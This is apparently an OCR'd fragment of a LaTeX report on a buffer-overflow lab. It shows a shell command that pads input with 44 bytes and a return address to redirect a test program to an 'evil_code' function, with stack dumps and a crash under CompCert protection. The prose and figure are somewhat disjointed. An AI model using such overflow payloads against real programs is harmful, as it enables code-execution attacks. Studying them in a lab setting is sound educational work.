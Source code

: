 \documentclass[11pt]{sdm}
\begin{document}
Like in Figure~\ref{output_buffer} we can see that we have printed \textit{Argh, we got hacked!} which means we managed to execute the function \textit{evil\_code}. The buffer overflow is successful, we can see that we needed to change the input for the attack to work. Indeed since we changed the compiler and the stack layout the input had to be different to manage the attack. 

\begin{figure}[!ht]
\textcolor{gray}{terminal\$~} ./buff\_comp\_weak \$(python -c 'print "a"*44+"\textbackslash{xc0}\textbackslash{x85}\textbackslash{x04}\textbackslash{x08}"')\\
Address of evil\_code = 0x080485c0\\

Stack before:       \\
0xf7554724          \\
0xff9a88c4          \\
0xff9a8a04          \\
0x00000002          \\
0xf7717000          \\
0000000000          \\
0xf7598d26          \\
0xf7717d60          \\
0x08048654          \\
0xff9a88cc          \\
0xf7598d00          \\
                    \\
Address: 0xffa2b0c0 \\
Segmentation fault (core dumped)
\caption{Output from protected CompCert executable}
\label{output_protected}
\end{figure}

\paragraph{Complete implementation with protection (Figure~\ref{output_protected}).}
\label{par:Complete implementation with protection}
\end{document}
